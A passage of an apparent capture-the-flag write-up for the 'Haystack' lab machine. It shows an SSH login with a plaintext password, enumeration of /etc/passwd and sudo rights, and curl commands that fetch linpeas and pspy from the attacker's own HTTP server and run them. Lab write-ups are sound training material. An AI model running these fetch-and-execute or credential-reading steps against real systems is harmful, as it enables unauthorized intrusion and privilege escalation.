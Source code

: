 ```bash
security@10.10.10.115\'s password: # spanish.is.key
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ hostname -I 
10.10.10.115 dead:beef::250:56ff:feb9:f95a 
```

## Privilege escalation
Let's enumerate the users with bash terminals, and the permissions available for `security`:
```bash
[security@haystack ~]$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
security:x:1000:1000:security:/home/security:/bin/bash
[security@haystack ~]$ cat /etc/sudoers
cat: /etc/sudoers: Permiso denegado
[security@haystack ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for security: # spanish.is.key
Sorry, user security may not run sudo on haystack.
```

### Linpeas.sh
Download the script from our personal python http server and run it:
```bash
[security@haystack ~]$ curl http://10.10.14.15:4444/linpeas.sh --output linpeas.sh
[security@haystack ~]$ chmod +x linpeas.sh 
[security@haystack ~]$ ./linpeas.sh 
```
From its output we see:
- Sudo version: `1.8.23`
- Suggested exploit: `CVE-2018-14665`
- Various .github under `/usr/share/kibana/node_modules`

### Pspy
We can now try to monitorize root's processes:
```bash
[security@haystack ~]$ curl http://10.10.14.15:4444/pspy32s --output psypy
[security@haystack ~]$ chmod +x psypy 
[security@haystack ~]$ ./psypy -c -i 100 | grep UID=0
```